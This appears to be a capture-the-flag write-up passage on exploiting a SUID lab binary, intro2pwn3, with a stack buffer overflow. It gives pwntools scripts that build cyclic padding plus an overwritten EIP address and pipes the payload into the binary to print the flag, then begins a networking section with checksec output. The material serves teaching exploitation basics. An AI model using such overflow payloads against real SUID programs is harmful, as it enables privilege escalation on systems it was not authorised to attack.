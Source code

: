 ```
-rwsrwxr-x 1 dizmas dizmas 7444 May 19 02:25 intro2pwn3
```

Notice the `s`. That stands for SUID which is set in this program. Meaning when we run the program - it will have the Effective Permissions of the `dizmas` user.

We can exploit this program through the `get` command used by the program. It has `24` bytes allocated to it and if more than `24` bytes of data is given - a buffer overflow will occur

In doing a Buffer Overflow, we would like to overwrite the `IP` Instruction Pointer (not the networking one ;) (`EIP` on 32 bit machines and `RIP` on 64 bit machines)

```python
#!/usr/bin/env python

from pwn import *

padding = cyclic(cyclic_find('jaaa'))

eip = p32(0xdeadbeef)

payload = padding + eip

print(payload)
```

```python
#!/usr/bin/env python

from pwn import *

padding = cyclic(cyclic_find('jaaa'))

eip = p32(0x8048536)

payload = padding + eip

print(payload)
```

I had a few issues with `gdb` not wanting to run it properly with the exploit so instead I simply used:

```bash
python pwn_cyclic.py | ./intro2pwn3
```

Which simply funnels the output from the `python` command into the next. Dumping the flag onto `stdout`

--------------------------------------------------------------------------------

### Networking

```
[*] '/home/buzz/IntroToPwntools/IntroToPwntools/networking/serve_test'
    Arch:     i386-32-little
    RELRO:    Full RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      PIE enabled
```
